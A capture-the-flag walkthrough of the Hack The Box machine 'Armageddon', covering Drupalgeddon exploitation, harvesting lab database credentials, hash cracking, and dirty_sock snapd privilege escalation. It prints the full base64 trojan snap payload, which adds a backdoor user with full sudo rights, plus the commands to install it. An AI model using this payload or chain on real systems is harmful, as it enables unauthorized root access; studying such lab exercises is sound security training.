



# Writeup for [Armageddon](https://www.hackthebox.eu/home/machines/profile/323) from [Hack The Box](https://www.hackthebox.eu/)

## Table of Contents

<!-- MarkdownTOC -->

- [Machine Information](#machine-information)
- [Information Gathering and Enumeration](#information-gathering-and-enumeration)
- [Exploitation](#exploitation)
- [Privilege Escalation](#privilege-escalation)
	- [Apache User to Brucetherealadmin User](#apache-user-to-brucetherealadmin-user)
	- [Brucetherealadmin User to Root User](#brucetherealadmin-user-to-root-user)

<!-- /MarkdownTOC -->


## Machine Information
* OS 			: Linux
* Difficulty 	: Easy
* Points 		: 20
* Release 		: 27 Mar 2021
* IP Address 	: 10.10.10.233

## Information Gathering and Enumeration

As usual, we're going to start with a simple nmap scan to enumerate services running on the box.

```bash
nmap -sCV -oN nmap/initial 10.10.10.233
```

We see from nmap that `SSH` and `HTTP` is running on the box.


We can also see that nmap tells us that the webserver is running `Drupal 7` which is a CMS ( Content Management System ) much like `WordPress`. It also tells us that the box is running `CentOS`.

Navigating to the webserver, we found nothing much of interest. We do see a login form which we can try to guess some credentials like `admin:admin` or `admin:password`, but those doesn't seem to work.

Going back to our nmap scan, we see a `robots.txt` with a lot of content. So let's navigate to that file.

Going near the bottom of the file, we see a `CHANGELOG.txt` file. This file will most likely contain version information for `Drupal`. If we know the version of the software, we can potentially find a public exploit for it.

 


We see a version number and a date, so let's try to take a look at `searchsploit`.

## Exploitation

```bash
searchsploit drupal
```
We see a bunch of output, but the one that caught my eye was `Drupalgeddon`. Just like the name of this box `Armageddon`, we can assume that this exploit might be the foothold.


At first I tried to use the `POC` exploit on `Drupalgeddon2` since I wanted to avoid using metasploit, but the script spat out a huge error message and I was just to lazy to debug it. So let's start up metasploit.

Make sure to use the correct options and when we execute, we should get a meterpreter session on the box.


## Privilege Escalation

### Apache User to Brucetherealadmin User

After landing on the meterpreter session, we see a `.gitignore` in the directory.


Reading the file, we get some juicy info, `sites/*/settings*.php` might contain some sensitive information. So let's start hunting for the file.



Following the path of the `.gitignore` file, we can `cd` into the `sites` directory and traverse to the `default` directory. Here we can see a `settings.php` file.


Reading the file with `nvim` and searching for the phrase `password` in the `settings.php` file, we get some credentials for `mysql`.


Let's get back to our meterpreter session and drop in to a regular shell, and login to `mysql`.

Trying to get an interactive shell with python spits out an error, so we're just gonna have to live with a simple `bash -i`.

Since this shell is not a full `tty` session, it won't spit out mysql output. But when we give it a syntax error, it magically spits out the output. Well good enough I guess.



We see a `drupal` database with a `users` table.

```bash
bash-4.2$ mysql -u drupaluser -p
mysql -u drupaluser -p
Enter password: CQHEy@9M*m23gBVj
use drupal;
show tables;
show;
ERROR 1064 (42000) at line 3: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '' at line 1
Tables_in_drupal
...[snipped]...
users
...[snipped]...
```
Don't forget that after the valid SQL syntax, we need to put a syntax error so that it spits out the output of the valid syntax. I use `show;`.


Now that we got a hash, let's try to crack it with `John The Ripper`.

```bash
john hash --wordlist=/opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
```
Give it a minute and we should get the password `booboo`.


Since we know that `SSH` is open on this box from nmap, let's try to SSH in using this user's credentials.


### Brucetherealadmin User to Root User

As usual, let's start with some low hanging fruit. I'm going to check for `sudo` privileges with `sudo -l`.


It appears we can run snap install as `root` without a password. Googling around for a bit, I found [this](https://github.com/initstring/dirty_sock) github repo about a privesc via `snapd`.

Running `snap version` on the box returns us a version number greater than the said vulnerable version which is `2.37`. But we'll try anyways.

After trying to run both scripts without success on the box, I tried looking at the forums for hints and assummed that maybe we have to do this exploit manually. So I went back to the github repo and read the blog post that is mentioned.

After reading the [blog post](https://initblog.com/2019/dirty-sock/) ( **HIGHLY RECOMMEND TO READ** ), I had a rough understanding of the exploit and tried to do it manually. First I used the exact same `TROJAN_SNAP` variable from the exploit script, converted it from base64 and put it in a file called `exploit;uid=0.snap`.

I added the string `;uid=0` to the filename just in case that the exploit needed it.
> After some testing, it is not needed to add the `;uid=0` string to the filename.

**NOTE: if the exploit is not working, try to reset the box and try again.**

I simply did this in an interactive python shell on the box.

```python
>>>TROJAN_SNAP = ('''
aHNxcwcAAAAQIVZcAAACAAAAAAAEABEA0AIBAAQAAADgAAAAAAAAAI4DAAAAAAAAhgMAAAAAAAD/
/////////xICAAAAAAAAsAIAAAAAAAA+AwAAAAAAAHgDAAAAAAAAIyEvYmluL2Jhc2gKCnVzZXJh
ZGQgZGlydHlfc29jayAtbSAtcCAnJDYkc1daY1cxdDI1cGZVZEJ1WCRqV2pFWlFGMnpGU2Z5R3k5
TGJ2RzN2Rnp6SFJqWGZCWUswU09HZk1EMXNMeWFTOTdBd25KVXM3Z0RDWS5mZzE5TnMzSndSZERo
T2NFbURwQlZsRjltLicgLXMgL2Jpbi9iYXNoCnVzZXJtb2QgLWFHIHN1ZG8gZGlydHlfc29jawpl
Y2hvICJkaXJ0eV9zb2NrICAgIEFMTD0oQUxMOkFMTCkgQUxMIiA+PiAvZXRjL3N1ZG9lcnMKbmFt
ZTogZGlydHktc29jawp2ZXJzaW9uOiAnMC4xJwpzdW1tYXJ5OiBFbXB0eSBzbmFwLCB1c2VkIGZv
ciBleHBsb2l0CmRlc2NyaXB0aW9uOiAnU2VlIGh0dHBzOi8vZ2l0aHViLmNvbS9pbml0c3RyaW5n
L2RpcnR5X3NvY2sKCiAgJwphcmNoaXRlY3R1cmVzOgotIGFtZDY0CmNvbmZpbmVtZW50OiBkZXZt
b2RlCmdyYWRlOiBkZXZlbAqcAP03elhaAAABaSLeNgPAZIACIQECAAAAADopyIngAP8AXF0ABIAe
rFoU8J/e5+qumvhFkbY5Pr4ba1mk4+lgZFHaUvoa1O5k6KmvF3FqfKH62aluxOVeNQ7Z00lddaUj
rkpxz0ET/XVLOZmGVXmojv/IHq2fZcc/VQCcVtsco6gAw76gWAABeIACAAAAaCPLPz4wDYsCAAAA
AAFZWowA/Td6WFoAAAFpIt42A8BTnQEhAQIAAAAAvhLn0OAAnABLXQAAan87Em73BrVRGmIBM8q2
XR9JLRjNEyz6lNkCjEjKrZZFBdDja9cJJGw1F0vtkyjZecTuAfMJX82806GjaLtEv4x1DNYWJ5N5
RQAAAEDvGfMAAWedAQAAAPtvjkc+MA2LAgAAAAABWVo4gIAAAAAAAAAAPAAAAAAAAAAAAAAAAAAA
AFwAAAAAAAAAwAAAAAAAAACgAAAAAAAAAOAAAAAAAAAAPgMAAAAAAAAEgAAAAACAAw'''
               + 'A' * 4256 + '==')

>>> with open('b64.snap','w') as f:
	f.write(TROJAN_SNAP)
>>>exit()
```
Then did the base64 conversion in the shell
```bash
cat b64.snap | base64 -d > 'exploit;uid=0.snap' 
```


Then I ran `sudo snap install --devmode 'exploit;uid=0.snap'`, after it's finished I ran `su dirty_sock` and was able to login with the password `dirty_sock`.

 

Since the exploit created a user with sudo privileges, we can just run `sudo -s`, and we should get a root shell.

